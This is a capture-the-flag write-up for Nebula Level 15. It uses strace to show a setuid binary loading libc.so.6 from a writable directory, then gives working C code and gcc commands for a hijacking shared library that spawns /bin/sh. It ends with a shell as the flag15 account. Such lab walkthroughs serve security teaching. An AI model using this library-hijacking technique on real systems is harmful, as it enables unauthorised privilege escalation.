

# Nebula - [LEVEL 15](https://exploit.education/nebula/level-15/)

Level Description:



# Nebula - [LEVEL 15](https://exploit.education/nebula/level-15/) - Solution

By running the binary we get the following message:
```console
level15@nebula:/home/flag15$ ./flag15
strace it!
```

Let's run ```strace``` command:
```c
level15@nebula:/home/flag15$ strace ./flag15
execve("./flag15", ["./flag15"], [/* 19 vars */]) = 0
brk(0)                                  = 0x93ca000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb784f000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686/sse2/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/i686/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686/sse2", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/i686/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/i686/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/sse2/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/sse2", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/i686/sse2/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/i686/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/i686/sse2", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/i686/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/i686/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/i686/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/i686", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/sse2/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/sse2", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15", {st_mode=S_IFDIR|0775, st_size=3, ...}) = 0
...
```

As we can see on the last line the binary looks for ```/var/tmp/flag15/libc.so.6``` file on ```/var/tmp/flag15``` directory which we can write to this directory.

We can solve the challenge by compiling the ```.so``` file with the name ```libc.so.6``` which contains our custom code.

Let's write the following ```C``` shared object code:
```c
#include <linux/unistd.h>

int __libc_start_main(int (*main) (int, char **, char **), int argc, char *argv, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void *stack_end) {
  system("/bin/sh");
}

void __cxa_finalize (void *d) {
   return;
}
```

Compile it, copy to ```/var/tmp/flag15``` and run the binary ```/home/flag15/flag15```:
```console
level15@nebula:/tmp/level15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
level15@nebula:/tmp/level15$ cp libc.so.6 /var/tmp/flag15/
level15@nebula:/tmp/level15$ /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
level15@nebula:/tmp/level15$

```

We get the error about the version, We can solve it by appending ```version-script``` flag to ```gcc```.

Version scripts provide information that can be used by GNU/Linux distribution packaging tools. For example, Debian has a tool dpkg-shlibdeps that can determine the minimal required version of each dependency (by looking at the symbol list) and stuff the information into the Debian specific packaging files ([Reference](https://www.gnu.org/software/gnulib/manual/html_node/LD-Version-Scripts.html]).

We need to create a file called ```version``` which contains:
```c
GLIBC_2.0 {};
```

Let's compile it again with this flag:
```console
level15@nebula:/tmp/level15$ gcc -shared -fPIC -o libc.so.6 mylibc.c -Wl,--version-script=version
level15@nebula:/tmp/level15$ cp libc.so.6 /var/tmp/flag15/
level15@nebula:/tmp/level15$ /home/flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
level15@nebula:/tmp/level15$
```

To solve this error we need to compile our library statically which actually "copy" all the dependencies it needs to the ```so``` file:
```console
level15@nebula:/tmp/level15$ gcc -shared -fPIC -o libc.so.6 mylibc.c -Wl,--version-script=version
level15@nebula:/tmp/level15$ ls -ltr
total 16
-rw-rw-r-- 1 level15 level15  266 2022-01-13 21:21 mylibc.c
-rw-rw-r-- 1 level15 level15   14 2022-01-13 21:25 version
-rwxrwxr-x 1 level15 level15 6854 2022-01-13 21:29 libc.so.6
level15@nebula:/tmp/level15$ gcc -fPIC -shared  -o libc.so.6 mylibc.c -static-libgcc -Wl,--version-script=version,-Bstatic
level15@nebula:/tmp/level15$ ls -ltr
total 780
-rw-rw-r-- 1 level15 level15    266 2022-01-13 21:21 mylibc.c
-rw-rw-r-- 1 level15 level15     14 2022-01-13 21:25 version
-rwxrwxr-x 1 level15 level15 779365 2022-01-13 21:29 libc.so.6

level15@nebula:/tmp/level15$ cp libc.so.6 /var/tmp/flag15/

```

Look at the size before the static compile and after (6854 bytes vs 779365 bytes).

Now, Let's run the binary:
```console
level15@nebula:/tmp/level15$ /home/flag15/flag15
sh-4.2$ whoami
flag15
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

And we are successfully running ```getflag``` command as ```flag15``` user.